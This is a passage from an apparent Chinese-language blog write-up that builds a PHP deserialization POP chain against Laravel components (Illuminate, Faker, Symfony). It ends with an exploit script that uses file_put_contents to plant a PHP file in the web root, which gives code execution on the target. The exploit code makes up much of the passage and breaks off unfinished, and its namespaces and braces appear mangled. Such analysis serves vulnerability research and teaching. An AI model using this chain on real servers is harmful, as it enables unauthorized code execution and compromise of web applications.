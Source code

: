 可以看到只要我们将 **this-&gt;providers** 设置为 **array(Dispatcher类)** 即可，之后的调用就类似于 **call_user_func_array(array(Dispatcher类,’getListeners’),’/var/www/html/1.php’)** 。

现在基本完成了整个利用链，不过在执行到 **$this-&gt;dispatcher-&gt;removeListener($eventName, $listener)** 之前，还有一些额外的代码需要执行，我们要确保这些代码不会影响我们下面的方法，所以我们需要继续看 **foreach** 下面的代码（这里说的是 **TraceableEventDispatcher** 类 **preProcess** 方法中的 **foreach** ）。

我们看到其调用了本类的 **getListenerPriority** 方法，具体代码如下：

[![](https://p1.ssl.qhimg.com/t019cddb356d11063c3.png)](https://p1.ssl.qhimg.com/t019cddb356d11063c3.png)

我们看到 **第16行** ，返回 **$this-&gt;dispatcher-&gt;getListenerPriority($eventName, $listener)** ，简直完美。我们可以不用执行到刚才的 **removeListener** 方法，直接到这里就可以完成整个 **POP链** 了。最终的利用 **exp** 如下：

```
&lt;?php
namespace IlluminateEvents`{`
    class Dispatcher`{`
        protected $listeners;
        protected $wildcardsCache;
        public function __construct($parameter,$function)`{`
            $this-&gt;listeners[$parameter['filename']] = array($parameter['contents']);
        `}`
    `}`
`}`;
namespace Faker`{`
    class Generator`{`
        protected $providers;
        protected $formatters;
        public function __construct($providers,$formatters)`{`
            $this-&gt;providers = $providers;
            $this-&gt;formatters = $formatters;
        `}`
    `}`
`}`;
namespace SymfonyComponentEventDispatcherDebug`{`
    class TraceableEventDispatcher`{`
        private $dispatcher;
        public function __construct($dispatcher)`{`
            $this-&gt;dispatcher = $dispatcher;
        `}`
    `}`
`}`;
namespace IlluminateBroadcasting`{`
    class PendingBroadcast`{`
        protected $events;
        protected $event;
        public function __construct($events, $parameter)`{`
            $this-&gt;events = $events;
            $this-&gt;event = $parameter['filename'];
        `}`
    `}`
`}`

namespace `{`
    $function = 'file_put_contents';
    $parameters = array('filename' =&gt; '/var/www/html/1.php','contents' =&gt; '&lt;?php phpinfo();?&gt;');

    $dispatcher = new IlluminateEventsDispatcher($parameters,$function);
    $generator = new FakerGenerator([$dispatcher],['hasListeners'=&gt;'strlen','getListenerPriority'=&gt;$function]);
    $traceableeventdispatcher = new SymfonyComponentEventDispatcherDebugTraceableEventDispatcher($generator);
```
